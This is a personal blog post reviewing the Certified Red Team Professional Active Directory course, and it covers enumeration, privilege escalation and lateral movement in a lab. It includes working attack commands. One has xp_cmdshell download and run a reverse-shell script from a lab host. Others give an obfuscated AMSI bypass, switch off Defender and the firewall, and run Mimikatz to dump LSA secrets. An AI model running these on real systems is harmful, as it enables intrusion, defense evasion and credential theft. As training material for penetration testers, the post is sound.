 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. 

The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions. You have the option to use Kali at times but I chose to use the provided Windows VM the whole time for a change from the OSCP.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

### Enumeration

Throughout the enumeration section you have the choice to use the [ActiverDirectory Module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/) or [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) but I chose the latter created by Will Schroeder aka @harmj0y which is an amazing tool. 

PowerView contains some useful features such as Invoke-UserHunter which can find computers where specified users or groups have a current session as well as Find-LocalAdminAccess whereby it searches the domain looking for machines that the current user has local admin access to.

The other tool that stands out is the one named [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) which scans the domain looking for SQL servers that may be accessible. The first command I would run would be this to provide general enumeration of the SQL Servers:

{% highlight powershell %}
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
{% endhighlight %}

I would then do a more specific search to see if the returned SQL servers from the above command link to any further SQL Servers which can be achieved by using SQLServerLinkCrawl:

{% highlight powershell %}
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
{% endhighlight %}

This would normally tell you if you are sysadmin on any of the SQL servers and if you are you could potentially enable xp_cmdshell and get a reverse shell on the SQL server itself with:

{% highlight powershell %}
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (iwr http://172.16.100.1:80/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"'
{% endhighlight %}

### Privilege Escalation

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring to alow me to use my Priv Esc tools. These were the two Powershell commands I ran each time which might be useful for others:

**Bypass AMSI:**
{% highlight powershell %}
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
{% endhighlight %}

**Disable AV & Open Firewall:**
{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}

For Priv Esc I used [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and [Mimikatz](https://github.com/gentilkiwi/mimikatz) mainly when I had the privileges. The key to using these was to try and not touch disk too and to run them in memory to avoid AV.

### Lateral Movement

I think the highlight of the course is the use of PS Remoting to laterally move from machine to machine. Running commands like this becomes second nature after awhile and this wasn't a massive feature of the OSCP so was great to get the experience in using it:

{% highlight powershell %}
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
{% endhighlight %}

Also being able to create a PowerShell session, store it in a variable, then call Mimikatz locally and passing Mimikatz to the session was such a great technique to use:

{% highlight powershell %}
$sess = New-PSSession -Computername Server1
Invoke-Command -Session $sess -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
{% endhighlight %}

### Other Topics

The course also delves into lots of other tips and tricks such as Golden\Silver tickets, Kerberoasting, Unconstrained Delegation, Skeleton keys, ACL abuse etc etc but they would be too numerous to cover here. It is suffice to say that you come away from the course with a lot more knowledge of Active Directory than other courses provide.

### Exam





